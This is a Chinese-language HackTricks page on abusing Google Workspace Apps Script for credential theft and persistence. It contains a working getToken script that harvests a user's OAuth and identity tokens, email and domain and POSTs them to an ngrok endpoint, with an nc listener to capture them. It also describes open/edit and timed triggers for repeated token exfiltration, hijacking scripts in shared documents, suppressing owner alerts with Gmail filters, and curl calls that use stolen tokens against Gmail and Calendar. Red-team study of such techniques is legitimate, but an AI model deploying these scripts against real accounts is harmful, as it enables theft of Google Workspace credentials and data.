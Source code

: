 # GWS - App Scripts

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

- 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
- 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
- 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)
- **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或 **关注**我的**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
- 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## App Scripts

App Scripts是**当具有编辑权限的用户访问与App Script链接的文档并**在**接受OAuth提示后触发的代码**。\
它们也可以被设置为**由App Script的所有者每隔一段时间执行一次**（持久性）。

### 创建App Script

有几种创建App Script的方法，尽管最常见的方法是**从Google文档（任何类型）**和作为**独立项目**创建：

<details>

<summary>从Google文档、表格或幻灯片创建一个容器绑定项目</summary>

1. 打开文档文档、表格或幻灯片演示文稿。
2. 点击**扩展** > **Google Apps Script**。
3. 在脚本编辑器中，点击**无标题项目**。
4. 给您的项目命名，然后点击**重命名**。

</details>

<details>

<summary>创建一个独立项目</summary>

要从Apps Script创建一个独立项目：

1. 转到[`script.google.com`](https://script.google.com/)。
2. 点击**新项目**。
3. 在脚本编辑器中，点击**无标题项目**。
4. 给您的项目命名，然后点击**重命名**。

</details>

<details>

<summary>从Google Drive创建一个独立项目</summary>

1. 打开[Google Drive](https://drive.google.com/)。
2. 点击**新建** > **更多** > **Google Apps Script**。

</details>

<details>

<summary>从Google表单创建一个容器绑定项目</summary>

1. 在Google表单中打开一个表单。
2. 点击更多 more\_vert > **脚本编辑器**。
3. 在脚本编辑器中，点击**无标题项目**。
4. 给您的项目命名，然后点击**重命名**。

</details>

<details>

<summary>使用clasp命令行工具创建一个独立项目</summary>

`clasp`是一个命令行工具，允许您从终端创建、拉取/推送和部署Apps Script项目。

有关更多详细信息，请参阅[使用`clasp`进行命令行界面的指南](https://developers.google.com/apps-script/guides/clasp)。

</details>

## App Script场景 <a href="#create-using-clasp" id="create-using-clasp"></a>

### 创建带有App Script的Google表格

首先创建一个App Script，我建议在这种情况下创建一个Google表格，然后转到**`扩展 > App Scripts`**，这将为您打开一个**与该表格链接的新App Script**。

### 泄露令牌

为了授予OAuth令牌访问权限，您需要点击**`服务 +`并添加类似的范围**：

- **AdminDirectory**：访问目录的用户和组（如果用户具有足够的权限）
- **Gmail**：访问Gmail数据
- **Drive**：访问Drive数据
- **Google Sheets API**：使其与触发器一起工作

要自行更改**所需的范围**，您可以转到项目设置并启用：**`在编辑器中显示"appsscript.json"清单文件`**。

{% code overflow="wrap" %}
```javascript
function getToken() {
var userEmail = Session.getActiveUser().getEmail();
var domain = userEmail.substring(userEmail.lastIndexOf("@") + 1);
var oauthToken = ScriptApp.getOAuthToken();
var identityToken = ScriptApp.getIdentityToken();

// Data json
data = {
"oauthToken": oauthToken,
"identityToken": identityToken,
"email": userEmail,
"domain": domain
}

// Send data
makePostRequest(data);

// Use the APIs, if you don't even if the have configured them in appscript.json the App script won't ask for permissions

// To ask for AdminDirectory permissions
var pageToken = "";
page = AdminDirectory.Users.list({
domain: domain,  // Use the extracted domain
orderBy: 'givenName',
maxResults: 100,
pageToken: pageToken
});

// To ask for gmail permissions
var threads = GmailApp.getInboxThreads(0, 10);

// To ask for drive permissions
var files = DriveApp.getFiles();
}


function makePostRequest(data) {
var url = 'http://5.tcp.eu.ngrok.io:12027';

var options = {
'method' : 'post',
'contentType': 'application/json',
'payload' : JSON.stringify(data)
};

try {
UrlFetchApp.fetch(url, options);
} catch (e) {
Logger.log("Error making POST request: " + e.toString());
}
}
```
{% endcode %}

要捕获请求，您只需运行：
```bash
ngrok tcp 4444
nc -lv 4444 #macOS
```
### 请求执行应用脚本所需的权限：

<figure><img src="../../../.gitbook/assets/image (334).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
由于存在外部请求，OAuth提示框还会**请求权限以访问外部端点**。
{% endhint %}

### 创建触发器

一旦应用被读取，点击**⏰ 触发器**创建一个触发器。在**函数**中选择**`getToken`**，在部署中运行选择**`Head`**，在事件源中选择**`From spreadsheet`**，事件类型选择**`On open`**或**`On edit`**（根据您的需求），然后保存。

请注意，如果需要调试，可以在**执行选项卡中检查应用脚本的运行**。

### 共享

为了**触发**应用脚本，受害者需要连接**编辑访问权限**。

{% hint style="success" %}
用于执行**应用脚本**的**令牌**将是**触发器创建者的令牌**，即使其他用户以编辑身份打开文件。
{% endhint %}

### 滥用“与我共享”的文档

{% hint style="danger" %}
如果有人**与您共享了一个包含应用脚本和使用应用脚本的 Head 触发器**的文档，您可以修改应用脚本代码（例如添加窃取令牌功能），访问它，然后**应用脚本将以与与您共享文档的用户相同的权限执行**！（请注意，所有者的 OAuth 令牌将具有在创建触发器时给定的访问范围）。

**脚本的创建者将收到通知，指示有人修改了脚本**（考虑使用 Gmail 权限生成过滤器以防止警报？）
{% endhint %}

{% hint style="success" %}
如果**攻击者修改了应用脚本的范围**，更新**不会应用**到文档中，直到创建具有更改的新触发器。因此，攻击者将无法使用比他在创建触发器时设置的范围更多的权限窃取所有者的创建者令牌。
{% endhint %}

### 复制而非共享

当您创建一个共享文档的链接时，会创建类似于以下链接：`https://docs.google.com/spreadsheets/d/1i5[...]aIUD/edit`\
如果您将结尾的**"/edit"**更改为**"/copy"**，而不是访问它，谷歌会询问您是否要**生成文档的副本**：

<figure><img src="../../../.gitbook/assets/image (335).png" alt=""><figcaption></figcaption></figure>

如果用户复制它并访问，**文档的内容和应用脚本都将被复制**，但**触发器不会**，因此**不会执行任何操作**。

### 作为 Web 应用程序共享

请注意，还可以将**应用脚本**作为**Web应用程序**共享（在应用脚本的编辑器中，部署为Web应用程序），但会出现如下警告：

<figure><img src="../../../.gitbook/assets/image (337).png" alt=""><figcaption></figcaption></figure>

接着是**典型的 OAuth 提示**，要求所需的权限。

### 测试

您可以测试收集到的令牌以列出电子邮件：
```bash
curl -X GET "https://www.googleapis.com/gmail/v1/users/<user@email>/messages" \
-H "Authorization: Bearer <token>"
```
{% endcode %}

列出用户的日历：
```bash
curl -H "Authorization: Bearer $OAUTH_TOKEN" \
-H "Accept: application/json" \
"https://www.googleapis.com/calendar/v3/users/me/calendarList"
```
## 应用脚本作为持久性

一种持久性的选择是**创建一个文档并添加一个触发器来调用`getToken`函数，并与攻击者共享文档，这样每次攻击者打开文件时就会**窃取受害者的令牌。

还可以创建一个应用脚本，并设置它每隔一段时间触发一次（比如每分钟、每小时、每天...）。一个已经**获取了凭据或受害者会话的攻击者可以设置一个应用脚本定时触发器，每天泄露一个非常特权的OAuth令牌**：

只需创建一个应用脚本，转到触发器，点击添加触发器，选择事件源为时间驱动，并选择最适合您的选项：

<figure><img src="../../../.gitbook/assets/image (336).png" alt=""><figcaption></figcaption></figure>

{% hint style="danger" %}
这将创建一个安全警报电子邮件和一个推送消息到您的移动设备，提醒您有关此事。
{% endhint %}

### 共享文档未经验证提示绕过

此外，如果有人与您共享了一个具有**编辑访问权限**的文档，您可以在文档内生成**应用脚本**，而文档的**所有者（创建者）将成为应用脚本的所有者**。

{% hint style="warning" %}
这意味着，文档的**创建者将被视为任何拥有编辑访问权限的人在其中创建的任何应用脚本的创建者**。

这也意味着，**应用脚本将受到文档创建者的 Workspace 环境的信任**。
{% endhint %}

{% hint style="danger" %}
这也意味着，如果**应用脚本已经存在**并且人们已经**授予了访问权限**，那么任何具有文档上**编辑权限**的人都可以**修改它并滥用该访问权限**。\
要滥用此功能，您还需要人们触发应用脚本。一个巧妙的技巧是**将脚本发布为 Web 应用程序**。当已经**授予应用脚本访问权限**的**人们**访问网页时，他们将**触发应用脚本**（这也适用于使用`<img>`标签）。
{% endhint %}
